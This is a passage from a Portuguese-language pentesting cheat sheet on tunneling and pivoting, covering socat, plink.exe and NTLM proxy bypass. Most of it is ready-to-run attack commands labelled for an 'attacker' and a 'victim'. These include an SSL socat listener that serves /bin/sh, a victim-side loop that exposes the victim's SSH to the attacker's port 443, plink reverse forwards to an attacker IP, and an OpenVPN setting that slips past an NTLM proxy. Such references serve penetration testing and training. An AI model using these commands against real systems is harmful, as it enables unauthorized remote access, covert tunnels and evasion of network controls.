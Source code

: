 **/bin/sh console**

Crie certificados em ambos os lados: Cliente e Servidor

```bash
# Execute este comando em ambos os lados
FILENAME=socatssl
openssl genrsa -out $FILENAME.key 1024
openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
chmod 600 $FILENAME.key $FILENAME.pem
```

```bash
attacker-listener> socat OPENSSL-LISTEN:433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
victim> socat STDIO OPENSSL-CONNECT:localhost:433,cert=client.pem,cafile=server.crt
```

### Port2Port Remoto

Conecte a porta SSH local \(22\) à porta 443 do host não autorizado

```bash
attacker> sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr #Redirect port 2222 to port 443 in localhost 
victim> while true; do socat TCP4:<attacker>:443 TCP4:127.0.0.1:22 ; done # Conecte-se à porta 443 do invasor e tudo que vier daqui será redirecionado para a porta 22
attacker> ssh localhost -p 2222 -l www-data -i vulnerable #Conecta-se ao SSH da vítima
```

## Plink.exe

É como uma versão de console do PuTTY \(as opções são muito semelhantes a um cliente ssh\).

Como este binário será executado na vítima e é um cliente ssh, precisamos abrir nossa porta e serviço ssh para que possamos ter uma conexão reversa. Portanto, para encaminhar apenas uma porta acessível localmente para uma porta em nossa máquina:

```bash
echo y | plink.exe -l <nosso_username_valido> -pw <senha_valida> [-p <porta>] -R <porta_no_nosso_host>:<proximo_ip>:<porta_final> <seu_ip>
echo y | plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41 #Porta local 9090 para a porta 9090 externa
```

## Bypass de proxy NTLM

A ferramenta mencionada anteriormente: **Rpivot**

**OpenVPN** também pode burlá-lo definindo estas opções no arquivo de configuração:

```bash
http-proxy <proxy_ip> 8080 <file_with_creds> ntlm
```

### Cntlm
